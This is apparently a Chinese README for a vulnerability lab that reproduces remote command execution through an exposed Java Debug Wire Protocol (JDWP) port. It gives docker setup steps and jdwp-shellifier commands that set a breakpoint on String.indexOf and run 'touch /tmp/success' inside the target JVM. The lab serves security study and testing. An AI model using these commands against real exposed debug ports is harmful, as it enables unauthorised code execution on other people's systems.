



# 利用JAVA调试协议JDWP实现反弹shell
## 说明
JDWP是Java Debug Wire Protocol 的缩写，它定义了调试器（debugger）和被调试的 Java 虚拟机（target vm）之间的通信协议。那么对于一个开启了调试端口的JAVA应用，我们就可能利用JDWP进行调试，最终执行命令。

参考链接：
- [利用JAVA调试协议JDWP实现反弹shell](https://blog.spoock.com/2019/04/20/jdwp-rce/)
- [Hacking the Java Debug Wire Protocol – or – "How I met your Java debugger"](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)
- [jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)

## 环境搭建

执行下面命令启动漏洞环境：

```
docker-compose up -d
```

稍等一会，环境启动后，访问`http://your-ip:8888`，页面出现`hello world`则表示搭建成功;

## 漏洞复现
运行`python2 jdwp-shellifier -t your-ip -p 9999`,出现JVM等相关信息说明存在漏洞;



确认漏洞存在之后，还可以执行命令；
1. 在`String.indexof()`方法下断点执行命令，`python2 jdwp-shellifier.py -t your-ip -p 9999 --break-on 'java.lang.String.indexOf' --cmd "touch  /tmp/success"`
2. 此时需要访问`http://your-ip:8888`,触发应用程序中的`String.indexof()`调用,从而执行`touch  /tmp/success`
    
3. 执行`docker-compose exec jdwp bash`进入容器中，可见成功创建`/tmp/success`，说明命令执行成功：
    